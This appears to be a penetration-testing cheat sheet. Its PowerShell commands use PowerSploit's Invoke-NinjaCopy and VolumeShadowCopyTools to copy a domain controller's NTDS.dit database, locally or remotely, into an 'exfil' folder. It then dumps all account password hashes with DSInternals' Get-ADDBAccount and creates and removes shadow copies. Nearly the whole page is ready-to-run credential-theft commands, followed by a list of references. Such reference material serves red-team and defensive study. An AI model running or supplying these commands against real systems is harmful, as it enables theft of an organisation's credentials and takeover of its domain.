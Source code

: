 # PowerSploit

## Invoke-NinjaCopy

### Extract Shadow File

- Import Module

`PS C:\> Import-Module .\Invoke-NinjaCopy.ps1`

- Extract shadow copy locally

```
PS C:\> Invoke-NinjaCopy [-ComputerName "<domain_controller_IP>"] -Path "C:\Windows\NTDS\NTDS.dit" -LocalDestination "C:\exfil\ntds.dit"
```

- Extract shadow copy remotely

```
PS C:\> Invoke-NinjaCopy -ComputerName "<domain_controller_IP>" -Path "C:\Windows\NTDS\NTDS.dit" -RemoteDestination "C:\exfil\ntds.dit"
```

### Hashdump Shadow File

- Dump the hashes with PwDump format.

```
PS C:\> Get-ADDBAccount -All -DatabasePath "C:\exfil\ntds.dit" -Bootkey "C:\exfil\SYSTEM" | Format-Custom -View PwDump | Out-File -FilePath "C:\exfil\hashdump.pwdump" -Encoding ASCII
```

## VolumeShadowCopyTools

### Extract Shadow File

```
PS C:\> Import-Module .\VolumeShadowCopyTools.ps1

PS C:\> New-VolumeShadowCopy -Volume C:\

PS C:\> Get-VolumeShadowCopy
```

- Remove volume shadow copy

```
PS C:\> Get-VolumeShadowCopy | Remove-VolumeShadowCopy

PS C:\> Remove-VolumeShadowCopy -DevicePath '\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>'
```

---
## References

- [PowerSploit: Invoke-NinjaCopy](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1)

- [DSInternals Powershell Documentation: Get-BootKey](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-BootKey.md)

- [DSInternals Powershell Documentation: Get-ADDBAccount](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Readme.md)

- [PowerSploit: VolumeShadowCopyTools](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/VolumeShadowCopyTools.ps1)

- [Netwrix: Extracting Password Hashes from the Ntds.dit File](https://blog.netwrix.com/2021/11/30/extracting-password-hashes-from-the-ntds-dit-file/)